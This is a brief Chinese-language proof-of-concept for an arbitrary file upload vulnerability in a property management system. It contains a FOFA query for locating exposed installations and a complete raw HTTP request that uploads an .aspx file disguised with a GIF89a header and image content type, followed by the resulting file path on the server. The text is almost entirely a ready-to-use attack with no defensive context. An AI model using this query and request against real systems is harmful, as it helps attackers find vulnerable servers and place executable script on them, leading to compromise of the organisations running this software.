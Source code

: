 ## 新视窗新一代物业管理系统任意文件上传漏洞


## fofa
```
body="BPMSite/ClientSupport/OCXInstall.aspx"
```


## poc
```
POST /OfficeManagement/RegisterManager/Upload.aspx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Cookie: JSESSIONID=FC2204F3698D2A07CDE9786055A071CB
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 146
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpg

GIF89a
123
--00content0boundary00--
```

文件路径：`/Upload/ContractMamager/71d52920be4d-4956-93f9-77c3b0c899e81.aspx`
